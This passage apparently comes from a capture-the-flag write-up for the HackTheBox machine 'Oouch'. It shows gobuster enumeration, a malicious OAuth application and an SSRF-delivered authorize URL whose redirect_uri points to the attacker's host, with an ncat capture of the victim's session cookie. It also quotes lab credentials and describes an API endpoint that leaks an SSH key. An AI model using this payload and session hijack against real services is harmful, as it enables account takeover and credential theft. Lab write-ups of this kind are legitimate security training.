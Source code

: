 images/Untitled%209.png

now we can also access /documents

images/Untitled%2010.png

now again gobusting http://authorization.oouch.htb:8000/oauth/ we get another endpoint as /applicationsvisiting /applications we get greeted with a login prompt.

images/Untitled%2011.png

using the username and password found above develop:supermegasecureklarabubu123! we are unable to login. Running gobuster again on http://authorization.oouch.htb:8000/oauth/applications/ we get another hit as /register (Status: 301) we can login there using the found usernames and password.

images/Untitled%2012.png

which is prompting us to create an application. Creating a new application while setting the redirect uri to point to our machine.

images/Untitled%2013.png

now we can use ssrf to make the admin authorize our application by making a request to the http://authorization.oouch.htb:8000/oauth/authorize/ endpoint which will get redirected to our machine with the code and session id included. After reading the documentations extensively i was able to create the correct request as

http://authorization.oouch.htb:8000/oauth/authorize/?client_id=HqdQEKHcW8DUJJ1S3bVcrX8qyUYmmbVe4NNnBm28&response_type=code&redirect_uri=http://10.10.14.84:80/&allow=Authorize&state=&scope=read+write
sending this url to /contact we get the request back to our server with sessionid and code

➜  Oouch git:(master) ✗ ncat -nlvkp 80           
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.177.
Ncat: Connection from 10.10.10.177:46244.
GET /?error=unauthorized_client HTTP/1.1
Host: 10.10.14.84
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: sessionid=rfs9zfoljt4a4owbzql6l75krmhlfr21;
setting the sessionid cookie we get the session as qtc on the authorization.oouch.htb

images/Untitled%2014.png

now making a request to /oauth/token endpoint we can get an auth token for the user qtc.

images/Untitled%2015.png

now we can access the api @ /api/get_user

images/Untitled%2016.png

after fuzzing the endpoints i get another api endpoint as /api/get_ssh which gives us the ssh key for the user qtc

